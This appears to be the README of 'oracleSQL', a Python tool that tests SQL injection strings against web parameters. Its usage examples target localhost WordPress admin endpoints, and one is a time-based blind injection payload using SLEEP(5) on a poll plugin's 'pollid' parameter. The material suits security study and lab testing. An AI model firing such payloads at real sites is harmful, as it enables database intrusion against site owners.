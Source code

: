 # oracleSQL

By Valentin Boulou, Jérémie Gantet and Samuel Lager

## Usage
Return 0 if the injection is syntactically correct, 180 otherwise.

**`url`**`string` url of the target<br>
**`payload`**`dict` default params (GET) or payload (POST)  			`❗ value and key between SIMPLE quotes` <br>
**`vulnparam`**`string` name of param on which we add injtxt<br>
**`[errmode]`**`string` different modes for detect errors (optional)<br>
**`injtxt`**`string` injection text 									`❗ between DOUBLE quotes`<br>
#### GET
```
python sqloracl.py <url> GET <payload> <vulnparam> <errmode> <injtxt>
```
example :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/wp-admin/admin.php GET "{'action':'dt_duplicate_post_as_draft','post':''}" post default ""
```
#### POST
```
python sqloracl.py <url> POST <payload> <vulnparam> <errmode> <injtxt>
```
example :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/admin-ajax.php POST "{'action':'spAjaxResults','pollid':'2'}" pollid default " AND (SELECT 1158 FROM (SELECT(SLEEP(5)))eipW)"
```
